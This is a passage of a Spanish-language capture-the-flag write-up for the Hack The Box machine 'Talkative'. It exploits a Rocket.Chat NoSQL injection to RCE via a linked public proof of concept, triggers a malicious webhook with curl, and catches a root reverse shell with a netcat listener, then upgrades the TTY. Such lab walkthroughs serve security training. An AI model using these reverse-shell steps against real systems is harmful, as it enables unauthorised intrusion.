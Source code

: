 Esta versión es vulnerable a una NoSQLi que deriva a un RCE

<img src="/writeups/assets/img/Talkative-htb/8.png" alt="">

Encuentro una prueba de concepto en [Github](https://github.com/CsEnox/CVE-2021-22911). Creo un nuevo webhook que me envíe una reverse shell

<img src="/writeups/assets/img/Talkative-htb/9.png" alt="">

Activo el webhook y gano acceso a otro contenedor

```null
curl http://10.10.11.155:3000/hooks/swN6otCh7WDQhasHN/S5oSyBz7BFiDj2KttQZK2CmofskC6bbTZHh5QDLdqfQM2bYW
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.155] 34062
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c150397ccd63:/app/bundle/programs/server# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@c150397ccd63:/app/bundle/programs/server# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@c150397ccd63:/app/bundle/programs/server# export TERM=xterm
root@c150397ccd63:/app/bundle/programs/server# export SHELL=bash
root@c150397ccd63:/app/bundle/programs/server# stty rows 55 columns 209
```
